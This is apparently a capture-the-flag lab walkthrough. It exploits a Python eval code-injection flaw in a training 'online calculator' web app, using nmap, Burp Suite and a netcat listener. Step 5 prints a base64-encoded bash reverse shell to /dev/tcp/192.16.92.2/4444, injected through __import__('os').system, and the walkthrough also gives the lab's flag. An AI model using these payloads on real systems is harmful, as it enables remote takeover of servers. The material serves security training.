

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Online Calculator - Code Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1929>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Interacting with the webapp. 

When the lab starts up, the Online Calculator webapp opens up in the browser: 



Perform some calculations to know its working: ![ref2]

![ref1]





![ref1]

**Step 2:** Scan the target machine using nmap. **Command:** nmap -sS -sV online-calc.com 



On the target machine, 2 services are running. One is using port 5000 (on which the webapp is available) and on port 8000, a Python HTTP Server is running. 

**Step 3:** Configure Burp proxy to intercept the file upload requests. ![ref2]

Configure the browser to use the Burp proxy listener as its HTTP Proxy server: 

Using FoxyProxy addon to setup HTTP Proxy profile for the browser: Click on the icons for FoxyProxy on the top left. 



Select Burp Suite profile from the list. 



Launch BurpSuite. ![ref2]

Select Web Application Analysis > burpsuite 

The following window will appear: ![ref2]



![ref1]

Click Next. 

Finally, click Start Burp in the following window: 



The following window will appear after BurpSuite has started: ![ref2]



**Step 4:** Inspect the requests and determine the vulnerability in the webapp. 



Evaluate the above expression’s value. 



The request would be intercepted by Burp Suite. Forward the above request. ![ref2]



Notice that the application sends the expression to the Python server running on port 8000 on the target machine. 

Also notice that the target machine has IP address 192.16.92.3 Forward the above request and notice the response on the webapp: ![ref2]



As mentioned in the challenge description, the server is using the eval function of Python to evaluate the expressions and get the results. 

Notice that the response is a decimal value. But in Python the expression: eval("01/5")  returns 0. 



So the backend must be making some changes to the “/” to get decimal values as response. **Note:** Turn off the intercept mode in Burp Suite for any of the future requests. 

Now, send the above payload: 



Notice the response: ![ref2]



So, “/” gets converted to “ \* 1.0 /”. 

So, if the expression was: 1 / 2 It will become: 1 \* 1.0 / 2 

And that was how the application was generating the decimal values in the result. **Step 5:** Perform code injection on the webapp. 

Since the eval function is used and the “/“ character would be manipulated, encoding the payload as base64 to avoid any payload modifications on the backend: 

**Payload:** echo 'bash -c "bash -i >& /dev/tcp/192.16.92.2/4444 0>&1"' | base64 



**Note:** In case the base64-encoded commands contains a “/” character, then the command must be base64-encoded again to remove it. Any other encoding scheme that would decode it would also work. 

Before sending the above payload to the server, run a netcat listener on the host: ![ref2]**Command:** nc -lvp 4444 

![ref1]



Send the above base64-encoded payload to the backend server to get the terminal session: 

**Payload:** \_\_import\_\_("os").system("echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTYuOTIuMi80NDQ0IDA+JjEiCg== | base64 -d | bash") 



Check the response in the terminal: ![ref2]



**Step 6:** Retrieving the flag. 

**Commands:** 

find / -name flag 2>/dev/null cat /tmp/flag 



**Flag:** 2033ccb9fb15fb6a83c07bf96d467ac2 **References:** 

1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) ![ref2]
1. A1: Injection ([https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion.html](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection.html)) 

[ref1]: Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.002.png
[ref2]: Aspose.Words.e134beb9-355a-4c49-97b6-eafc6f587b66.004.png
